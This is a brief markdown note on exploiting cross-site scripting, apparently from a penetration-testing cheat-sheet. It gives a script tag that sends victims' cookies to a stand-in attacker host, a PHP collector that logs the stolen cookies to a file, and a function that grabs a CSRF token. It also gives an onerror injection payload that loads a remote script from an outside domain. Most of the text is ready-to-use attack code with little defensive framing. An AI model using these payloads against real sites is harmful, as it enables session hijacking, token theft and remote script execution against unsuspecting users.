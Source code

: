 ## `Essence`
- Within certain restrictions, driving victim to execute any JavaScript.

## `Exploit`
- obtain sensitive information
  - cookie
```
<script>newImage().src="http://attacker.server/get.php?cookie="+document.cookie;</script>

<?php
$ck =$_GET['cookie'];
error_log("$ck\n",3,"cookie.txt");
?>
```
  - token: AccessToken, CSRFToken
```
function getcsrftoken(){
fetch("/api/v1/getToken",
{
    headers: {
      'Accept': 'application/json',
      'Content-Type': 'application/json'
    },
    method: "POST",
    body: JSON.stringify({a: 1, b: 2})
})
// .then(function(res){ console.log(res) })
.then(e=>e.json())
.then(e=>console.log(window.csrfToken=e.data.csrfToken))
}

<!-- same origin-->
```
- request certain special service
  - Combine with CSRF: admin

## `Payload`
```
1" onerror=s=createElement('script');body.appendChild(s);s.src='//x0.nz/nQqS';
```

## `Reference`
- [xss-All-in-one](https://github.com/carlospolop/hacktricks/tree/master/pentesting-web/xss-cross-site-scripting)  @hacktricks
- 
